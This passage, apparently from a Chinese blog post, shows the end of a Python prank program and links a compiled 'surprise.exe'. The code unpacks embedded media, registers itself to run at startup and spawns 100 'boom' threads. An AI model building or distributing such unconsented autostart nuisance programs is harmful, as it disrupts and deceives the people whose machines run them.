 ```python
    with open('bg.mp3', 'wb+') as f:
        f.write(b64decode(bg_music))
    # 写入背景图片
    with open('end.gif', 'wb+') as f:
        f.write(b64decode(end_gif))

    # 开机自启
    set_shortcut()

    # 背景音乐
    Thread(target=playmusic, daemon=True).start()

    for i in range(100):
        t = Thread(target=boom)
        sleep(0.5)
        t.start()

    last()
```

**​附件**

[surprise.exe](/static/file/2022/07/05/surprise.exe)


